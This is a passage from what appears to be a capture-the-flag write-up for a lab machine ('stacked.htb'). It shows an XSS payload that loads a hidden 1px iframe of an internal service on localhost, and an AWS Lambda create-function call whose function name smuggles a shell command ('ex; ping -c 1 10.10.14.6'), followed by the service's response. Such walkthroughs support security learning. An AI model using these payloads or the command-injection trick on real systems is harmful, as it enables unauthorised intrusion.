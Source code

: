 #### IFrame

[This
post](https://stackoverflow.com/questions/19328143/xmlhttprequest-to-fetch-dom-with-dynamic-content)
on StackOverflow asks about how to use an `XMLHttpRequest` to fetch the
DOM based on dynamic content. I'll use that to craft a payload that will
load the page into an iframe, and wait for it to load.



    var iframe = document.createElement('iframe');    
    iframe.src = 'http://127.0.0.1:8080';    
    iframe.onload = function() {    
      setTimeout(function() {    
        iframe.parentNode.removeChild(iframe);    
        }, 5000);    
    };    
    iframe.sandbox = 'allow-scripts';    
    iframe.style.height = '1px';    
    iframe.style.width = '1px';    
    iframe.style.position = 'fixed';    
    iframe.style.top = '-9px';    
    iframe.style.left = '-9px';

    document.body.appendChild(iframe);    



I'll send an XSS to fetch that, and submit a new lambda function:



    oxdf@hacky$ aws lambda create-function --function-name 'ex; ping -c 1 10.10.14.6' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler index.handler --runtime nodejs12.x
    {
        "FunctionName": "ex; ping -c 1 10.10.14.6",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex; ping -c 1 10.10.14.6",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T19:04:26.602+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "2e71059f-9d2f-4679-a2b6-f0d4469a5147",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }
